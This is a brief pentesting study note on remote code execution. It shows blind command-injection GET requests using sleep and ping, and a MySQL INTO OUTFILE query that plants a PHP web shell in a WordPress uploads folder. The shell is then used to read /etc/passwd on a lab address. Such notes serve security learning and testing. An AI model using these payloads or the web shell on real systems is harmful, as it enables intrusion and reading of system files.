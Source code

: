```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# RCE attack - Remote Code Execution

_RCE_ attacks involve attackers manipulating network traffic by exploiting code vulnerabilities to access a corporate system.

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```



## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Now code can be executed from the browser: 

```
https://192.168.56.108:12380/blogblog/wp-content/uploads/shell.php?cmd=cat+/etc/passwd
```